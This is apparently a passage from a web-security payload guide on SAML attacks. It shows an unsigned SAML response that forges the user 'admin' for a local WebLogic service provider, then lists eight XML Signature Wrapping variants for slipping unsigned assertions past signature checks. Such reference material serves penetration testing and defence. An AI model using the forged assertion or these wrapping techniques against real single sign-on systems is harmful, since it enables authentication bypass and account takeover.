Example of SAML assertion where `NameID=admin` without signature.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml2:SubjectConfirmationData NotOnOrAfter="2018-04-22T10:33:53.593Z" Recipient="http://localhost:7001/saml2/sp/acs/post" />
            </saml2:SubjectConfirmation>
        </saml2:Subject>
        <saml2:Conditions NotBefore="2018-04-22T10:23:53.593Z" NotOnOrAfter="2018-0422T10:33:53.593Z" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AudienceRestriction>
                <saml2:Audience>WLS_SP</saml2:Audience>
            </saml2:AudienceRestriction>
        </saml2:Conditions>
        <saml2:AuthnStatement AuthnInstant="2018-04-22T10:28:49.876Z" SessionIndex="id1524392933593.694282512" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AuthnContext>
                <saml2:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml2:AuthnContextClassRef>
            </saml2:AuthnContext>
        </saml2:AuthnStatement>
    </saml2:Assertion>
</saml2p:Response>
```

### XML Signature Wrapping Attacks

XML Signature Wrapping (XSW) attack, some implementations check for a valid signature and match it to a valid assertion, but do not check for multiple assertions, multiple signatures, or behave differently depending on the order of assertions.

- XSW1 – Applies to SAML Response messages. Add a cloned unsigned copy of the Response after the existing signature.
- XSW2 – Applies to SAML Response messages. Add a cloned unsigned copy of the Response before the existing signature.
- XSW3 – Applies to SAML Assertion messages. Add a cloned unsigned copy of the Assertion before the existing Assertion.
- XSW4 – Applies to SAML Assertion messages. Add a cloned unsigned copy of the Assertion within the existing Assertion.
- XSW5 – Applies to SAML Assertion messages. Change a value in the signed copy of the Assertion and adds a copy of the original Assertion with the signature removed at the end of the SAML message.
- XSW6 – Applies to SAML Assertion messages. Change a value in the signed copy of the Assertion and adds a copy of the original Assertion with the signature removed after the original signature.
- XSW7 – Applies to SAML Assertion messages. Add an “Extensions” block with a cloned unsigned assertion.
- XSW8 – Applies to SAML Assertion messages. Add an “Object” block containing a copy of the original assertion with the signature removed.

